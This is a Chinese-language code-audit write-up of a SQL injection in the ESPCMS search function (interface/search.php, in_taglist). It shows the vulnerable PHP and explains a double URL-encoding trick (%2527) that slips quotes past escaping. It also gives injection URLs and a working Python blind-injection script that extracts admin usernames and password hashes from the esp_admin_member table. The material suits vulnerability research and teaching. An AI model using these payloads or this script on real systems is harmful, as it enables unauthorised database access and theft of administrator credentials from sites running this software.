


## espcms搜索注入

### 环境准备
- phpstudy
- phpstorm
- espcms 源码
    - 下载地址：http://down.chinaz.com/soft/27695.htm

### 审计

漏洞点在interface/search.php处in_taglist()函数下,代码如下：

```php
	function in_taglist() {
		parent::start_pagetemplate();
		include_once admin_ROOT . 'public/class_pagebotton.php';

		$page = $this->fun->accept('page', 'G');
		$page = isset($page) ? intval($page) : 1;
		$lng = (admin_LNG == 'big5') ? $this->CON['is_lancode'] : admin_LNG;
		$tagkey = urldecode($this->fun->accept('tagkey', 'R'));

		$db_where = ' WHERE lng=\'' . $lng . '\' AND isclass=1';
		if (empty($tagkey)) {
			$linkURL = $_SERVER['HTTP_REFERER'];
			$this->callmessage($this->lng['search_err'], $linkURL, $this->lng['gobackbotton']);
		}
		if (!empty($tagkey)) {
			$db_where.=" AND FIND_IN_SET('$tagkey',tags)";
		}
```

分析一下，首先调用了父类方法start_pagetemplate(),然后包含class_pagebotton.php，这两行代码看名字可知是模板渲染的方法文件，不太重要，继续看往下一行，调用了accept()方法，前面说过，G这个调用了获取GET值也就是$page进行addslashes()函数过滤。

关键代码:
```php
$tagkey = urldecode($this->fun->accept('tagkey', 'R'));
```


这段就说将获取到的`$tagkey`变量进行`urldecode`解码一次。这里可以利用二次url编码来绕过GPC也就是单双引号的过滤。跟踪一下能用到`$tagkey`的地方。

```php
if (!empty($tagkey)) {
	$db_where.=" AND FIND_IN_SET('$tagkey',tags)";
}
```


接着寻找能调用它们的文件方法，在index.php第62-75行有

```php
	if (in_array($archive, array('article', 'forum', 'search', 'bbssearch', 'forummain', 'special', 'respond', 'public', 'scriptout', 'enquiry', 'enquirymain', 'form', 'formmain', 'ordermain', 'membermain', 'member', 'forum', 'order'))) {
		$action = 'in_' . $action;
		if (!file_exists(admin_ROOT . "interface/$archive.php")) {
			exit('Access error!');
```

也就是说访问`http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1`

为了便于观察，我们可以这样写:



接着讲如何绕过单引号，要经过两次url编码，一次是浏览器默认一次url解码，一次是代码里的urldecode解码，也就是说一次`'`编码成`%27`,然后`%27`编码成`%2527`,尝试访问

`http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1%2527`



显示为`1'`且数据库报错，说明成功绕过。

`http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1%2527,tags) or 1=1%23`

不能用-- +的原因是+被urldecode了


http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1%2527,tags) or 1=1%23

写了个盲注脚本如下:
```py
import requests
import string

# str1 = '1234567890' + string.ascii_letters +string.punctuation # 数字+大小写字母+标点符号
str1 = '1234567890_' + string.ascii_letters + ','
url = "http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1%2527"
ans= ''

# for i in range(1,100):
#     payload = r',tags) or ((select length({})={}))=1%23'.format(payload2,i)
#     r = requests.get(url+payload)
#     # print(url+payload)
#     if "暂无相关信息" not in r.text:
#         print("用户名长度:" + str(i))


select0 = 'select user()'
select1 = 'select database()'
select2 = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
select3 = 'select group_concat(column_name) from information_schema.columns where table_schema=database()'
select4 = 'select group_concat(username,password) from esp_admin_member'

for i in range(1,88):
    for j in str1:
        payload = r',tags) or (substr(({}),{},1))=%2527{}%2527%23'.format(select4,i,j)
        # print(url+payload)
        r = requests.get(url+payload)
        if "暂无相关信息" not in r.text:
            ans += j
            print(ans)
            break
print(ans)
```
